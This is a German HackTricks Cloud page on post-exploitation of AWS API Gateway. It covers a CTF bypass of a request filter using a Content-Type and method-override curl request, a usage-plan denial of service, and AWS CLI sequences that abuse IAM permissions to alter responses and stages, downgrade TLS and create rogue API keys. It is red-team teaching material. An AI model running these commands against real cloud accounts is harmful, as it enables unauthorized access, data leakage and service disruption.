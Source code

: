 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## API Gateway

Für weitere Informationen siehe:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Zugriff auf nicht exponierte APIs

Du kannst einen Endpunkt in [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) mit dem Dienst `com.amazonaws.us-east-1.execute-api` erstellen, den Endpunkt in einem Netzwerk exponieren, auf das du Zugriff hast (potenziell über eine EC2-Maschine) und eine Sicherheitsgruppe zuweisen, die alle Verbindungen erlaubt.\
Dann wirst du von der EC2-Maschine aus auf den Endpunkt zugreifen und somit die Gateway-API aufrufen können, die zuvor nicht exponiert war.

### Umgehung des Request-Body-Passthrough

Diese Technik wurde in [**diesem CTF-Bericht**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) gefunden.

Wie in der [**AWS-Dokumentation**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) im Abschnitt `PassthroughBehavior` angegeben, wird standardmäßig der Wert **`WHEN_NO_MATCH`**, beim Überprüfen des **Content-Type**-Headers der Anfrage, die Anfrage ohne Transformation an das Backend weiterleiten.

Daher hatte im CTF das API Gateway eine Integrationsvorlage, die **verhindert hat, dass die Flagge in einer Antwort exfiltriert wird**, wenn eine Anfrage mit `Content-Type: application/json` gesendet wurde:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

Allerdings würde das Senden einer Anfrage mit **`Content-type: text/json`** diesen Filter umgehen.

Schließlich, da das API Gateway nur `Get` und `Options` erlaubte, war es möglich, eine beliebige dynamoDB-Abfrage ohne Einschränkung zu senden, indem man eine POST-Anfrage mit der Abfrage im Body und dem Header `X-HTTP-Method-Override: GET` verwendete:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

Im Abschnitt **Enumeration** können Sie sehen, wie Sie den **Nutzungsplan** der Schlüssel **erhalten**. Wenn Sie den Schlüssel haben und er auf X Nutzungen **pro Monat** **beschränkt** ist, könnten Sie ihn **einfach verwenden und einen DoS verursachen**.

Der **API-Schlüssel** muss nur in einem **HTTP-Header** namens **`x-api-key`** **eingeschlossen** werden.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:UpdateGatewayResponse` und `apigateway:CreateDeployment` kann **eine vorhandene Gateway-Antwort ändern, um benutzerdefinierte Header oder Antwortvorlagen einzuschließen, die sensible Informationen leaken oder bösartige Skripte ausführen**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Leckage sensibler Informationen, Ausführung bösartiger Skripte oder unbefugter Zugriff auf API-Ressourcen.

{% hint style="info" %}
Test erforderlich
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:UpdateStage` und `apigateway:CreateDeployment` kann **eine vorhandene API Gateway-Stufe ändern, um den Datenverkehr auf eine andere Stufe umzuleiten oder die Caching-Einstellungen zu ändern, um unbefugten Zugriff auf zwischengespeicherte Daten zu erhalten**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potenzielle Auswirkungen**: Unbefugter Zugriff auf zwischengespeicherte Daten, Störung oder Abfangen von API-Verkehr.

{% hint style="info" %}
Benötigt Tests
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:PutMethodResponse` und `apigateway:CreateDeployment` kann **die Methodenantwort einer bestehenden API Gateway REST API-Methode ändern, um benutzerdefinierte Header oder Antwortvorlagen einzuschließen, die sensible Informationen leaken oder bösartige Skripte ausführen**.
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potenzielle Auswirkungen**: Leck von sensiblen Informationen, Ausführung bösartiger Skripte oder unbefugter Zugriff auf API-Ressourcen.

{% hint style="info" %}
Benötigt Tests
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Ein Angreifer mit den Berechtigungen `apigateway:UpdateRestApi` und `apigateway:CreateDeployment` kann **die Einstellungen der API Gateway REST API ändern, um das Logging zu deaktivieren oder die minimale TLS-Version zu ändern, was die Sicherheit der API potenziell schwächen könnte**.
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**Potenzielle Auswirkungen**: Schwächung der Sicherheit der API, was möglicherweise unbefugten Zugriff oder die Offenlegung sensibler Informationen ermöglicht.

{% hint style="info" %}
Test erforderlich
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Ein Angreifer mit den Berechtigungen `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` und `apigateway:CreateUsagePlanKey` kann **neue API-Schlüssel erstellen, diese mit Nutzungstarifen verknüpfen und dann diese Schlüssel für unbefugten Zugriff auf APIs verwenden**.
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**Potenzielle Auswirkungen**: Unbefugter Zugriff auf API-Ressourcen, Umgehung von Sicherheitskontrollen.

{% hint style="info" %}
Test erforderlich
{% endhint %}

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
